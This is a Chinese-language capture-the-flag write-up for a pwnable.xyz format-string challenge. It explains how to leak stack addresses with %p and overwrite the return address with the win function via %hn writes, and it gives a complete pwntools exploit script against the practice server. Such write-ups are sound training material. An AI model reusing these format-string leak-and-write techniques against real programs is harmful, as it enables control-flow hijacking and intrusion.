

fsb+逻辑

ghidra反编译这道题有问题，只好去读汇编了


里面有一个vuln函数，大致功能为：



### 解题思路

1. 通过sprintf和read可以溢出一个长度最多为6（7+0x1f - 0x20）的格式化字符串；
2. 利用fsb，配合scanf读到的x，实现任意位置写；
3. 因为6字节的fmt不足以写入任意值，先把地址cmd+0x20到cmd+0x30填入非零值；
4. 把返回地址改为win函数地址。


### 脚本

```python
from pwn import *
from ctypes import *

p = remote('svc.pwnable.xyz', '30010')
# p = process('./challenge')

context.terminal = ['tmux', 'splitw', '-h']

padding = b'a' * 25


payload = padding + b'%3$p'
p.sendafter(b'Name: ', payload)
p.sendlineafter(b'> ', b'2')
vuln_addr = p.recvuntil(b'1.')[:-2]
vuln_addr = int(vuln_addr, 16) - 113
win_addr = vuln_addr + 299
print('vuln address ' + hex(vuln_addr))
print('win addr ' + hex(win_addr))


payload = padding + b'%2$p'
p.sendlineafter(b'> ', b'1')
p.sendafter(b'Name: ', payload)
p.sendlineafter(b'> ', b'2')
cmd_addr = p.recvuntil(b'1.')[:-2]
cmd_addr = int(cmd_addr, 16) - 0x30
print('cmd address ' + hex(cmd_addr))


payload = padding + b'%12$p'
p.sendlineafter(b'> ', b'1')
p.sendafter(b'Name: ', payload)
p.sendlineafter(b'> ', b'2')
ret_addr = p.recvuntil(b'1.')[:-2]
ret_addr = int(ret_addr, 16) - 36
print('ret address ' + hex(ret_addr))


# 找到一个满足菜单2，并且该地址可写的值
tmp_addr = cmd_addr
tmp_addr += 0x100
tmp_addr = (tmp_addr & 0xffffff00) | 2
print('tmp addr ' + hex(tmp_addr))


payload = padding + b'a%6$hn'
p.sendlineafter(b'> ', b'1')
p.sendafter(b'Name: ', payload)
p.sendlineafter(b'> ', str.encode(str(tmp_addr)))
for i in range(0, 10):
    w_addr = cmd_addr + 0x26 + i
    p.sendlineafter(b'> ', str.encode(str(w_addr)))

p.sendlineafter(b'> ', str.encode(str(tmp_addr - 1)))
payload = '%{}c%6$hn'.format((win_addr & 0xffff) - 11)        # 11 = 0x10（gap） - 5 （'a%6$hn'的有效载荷）
p.sendafter(b'Name: ', str.encode(payload) + p8(0))
p.sendlineafter(b'> ', str.encode(str(c_int32(ret_addr).value)))

p.sendlineafter(b"> ", "0")   # 退出

p.interactive()

```

